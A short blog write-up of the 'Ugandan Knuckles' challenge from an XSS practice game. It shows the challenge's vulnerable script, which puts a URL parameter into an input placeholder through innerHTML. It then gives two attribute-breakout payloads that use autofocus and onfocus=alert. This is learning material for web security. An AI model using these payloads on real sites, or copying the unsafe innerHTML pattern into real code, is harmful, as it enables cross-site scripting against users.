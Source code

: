 ```yaml
---
title: Ugandan Knuckles 
layout: post 
date: 2022-04-29 
permalink: /:categories/:title
categories: writeups xss-game
---
```


#### challenge

This is the script that violates the web

```markup
<!-- Challenge -->
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

#### my solution

In this challenge we see that the code removes the <> and that everything we enter is entered in an input so we will take advantage of that to enter a script that is activated when it focuses and with autofocus as soon as the page loads it will be runned

[Ugandan Knuckles](https://sandbox.pwnfunction.com/warmups/da-wey.html?wey=%22autofocus%20onfocus=alert(1)%20x=%22)

#### creator solution

The solution given by the creator of the game is as follows

```markup
"onfocus=alert(1337) autofocus="
```
